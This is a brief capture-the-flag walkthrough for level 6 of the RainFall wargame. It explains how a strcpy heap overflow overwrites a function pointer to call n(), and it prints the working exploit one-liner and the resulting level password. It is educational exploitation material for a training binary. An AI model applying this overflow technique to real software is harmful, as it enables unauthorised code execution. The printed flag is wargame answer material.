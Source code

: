 # Walkthrough

## Disassembling executable
see source.c

## Analysis

In the main function, the pointer p1 holds the address of m() and then calls that address.

Since the p1 is allocated after p2 we are going to exploit the strcpy by overwriting p2 and p1. At the address of p1 we are going to write the address of n() in order to execute that function which cat the .pass at level 7.

```
level6@RainFall:~$ ./level6 $(python -c "print('a' * 72 + '\x54\x84\x04\x08')")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$
```
